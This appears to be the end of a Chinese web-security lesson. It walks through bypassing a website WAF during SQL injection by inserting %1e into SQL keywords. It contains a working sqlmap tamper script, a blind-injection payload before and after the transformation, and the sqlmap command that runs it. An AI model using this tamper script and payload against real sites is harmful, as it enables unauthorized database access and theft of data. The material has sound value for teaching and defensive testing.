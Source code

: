 下面以某知名网站的 SQL 注入为例。常规的注入语句都被拦截了，后来在 fuzz 测试 WAF 时，发现使用一些特殊符号可以绕过 WAF（换行符也经常被用来绕过），而 MySQL 中有些特殊字符又相当于空格：
> %01, %02, %03, %04, %05, %06, %07, %08, %09, %0a, %0b, %0c, %0d, %0e, %0f, %10, %11, %12, %13, %14, %15, %16, %17, %18, %19, %1a, %1b, %1c, %1d, %1e, %1f, %20

我们尝试在每个 SQL 关键词中随机加个%1e。测试确认可绕过 WAF 后，接下来就是写 tamper 让 sqlmap 实现自动化绕过 WAF。

```python
import re
from lib.core.common import randomRange
from lib.core.data import kb  # kb 中存放着 sqlmap 的一些配置信息
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload, **kwargs):
    result = payload
    if payload:
        for match in re.finditer(r"\b[A-Za-z_]+\b", payload):
            word = match.group()
            if len(word) < 2:
                continue
            if word.upper() in kb.keywords:  # 判断是否属于 SQL 关键词
                str = word[0]
                for i in xrange(1, len(word) - 1):
                    str += "%s%s" % ("%1e" if randomRange(0, 1) else "", word[i])
                str += word[-1]
                if "%1e" not in str:
                    index = randomRange(1, len(word) - 1)
                    str = word[:index] + "%1e" + word[index:]
                result = result.replace(word, str)
    return result
```

上述代码会判断输入的字符串是否有 SQL 关键词，如果有就随机在关键词中间插入%1e。

假设原注入语句为：

```sql
and ascii(substr((select database()),1,1))>64
```

经转换后变成：

```sql
a%1end a%1escii(sub%1estr((s%1eelect da%1etabase()),1,1))>64
```

最后调用 sqlmap 执行即可：

```shell
./sqlmap.py -u url --tamper=bypasswaf.py --dbs
```

到这里咱们就完成请求参数的修改了，这是用来绕过 WAF 是非常有效的手段。

### 总结

这一讲我主要介绍了二次注入产生的原理，以及如何利用 SQL 注入漏洞，包括手工注入及使用 sqlmap 实现自动化漏洞。

